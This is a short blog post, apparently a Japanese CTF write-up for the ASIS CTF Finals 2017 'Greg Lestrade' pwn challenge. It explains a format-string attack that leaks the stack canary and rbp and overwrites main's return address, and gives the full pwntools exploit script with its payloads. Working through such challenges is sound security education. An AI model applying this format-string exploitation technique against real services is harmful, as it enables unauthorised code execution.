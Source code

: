 ```yaml
---
layout: post
alias: "/blog/2017/09/11/asis-ctf-finals-2017-greg-lestrade/"
title: "ASIS CTF Finals 2017: Greg Lestrade"
date: "2017-09-11T08:09:22+09:00"
tags: [ "ctf", "writeup", "pwn", "asis-ctf" ]
---
```


他の問題が解けないのでプロが放置してたやるだけをやってお茶を濁した回2。

## problem

```
$ nc 146.185.132.36 12431
[*] Welcome admin login system! 

Login with your credential...
Credential : 7h15_15_v3ry_53cr37_1_7h1nk
0) exit
1) admin action
1
[*] Hello, admin 
Give me your command : 
```

## solution

Rewrite the return address of `main` with the flag function.
Use the format-string bug to read `rbp` and to rewrite it.

There is a bufferoverflow bug at reading credential, but it is not used.

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='146.185.132.36')
parser.add_argument('port', nargs='?', default=12431, type=int)
parser.add_argument('--log-level', default='debug')
parser.add_argument('--binary', default='./greg_lestrade')
args = parser.parse_args()
context.log_level = args.log_level
context.binary = args.binary
elf = ELF(args.binary)

credential = '7h15_15_v3ry_53cr37_1_7h1nk'
system_cat_flag = 0x400876
p = remote(args.host, args.port)
# p = process(args.binary)

p.sendlineafter('Credential : ', credential)

menu = '''\
0) exit
1) admin action
'''
p.sendlineafter(menu, '1')
payload = ''
payload += 'a' * 256
payload += '/%137$p/%138$p/'
p.sendlineafter('Give me your command : ', payload)
s = p.recvline()
canary = int(s.split('/')[1], 16)
rbp = int(s.split('/')[2], 16)
log.info('canary = %#x', canary)
log.info('rbp = %#x', rbp)

retaddr = rbp + 8
for i, c in enumerate(p64(system_cat_flag)):
    p.sendlineafter(menu, '1')
    payload = ''
    payload += 'a' * 256
    payload += '%' + str(ord(c) + 256) + 'c'
    payload += '%42$hhn'
    payload += ' ' * (256 + 16 - len(payload))
    payload += p64(retaddr + i)
    p.sendlineafter('Give me your command : ', payload)

p.interactive()
```
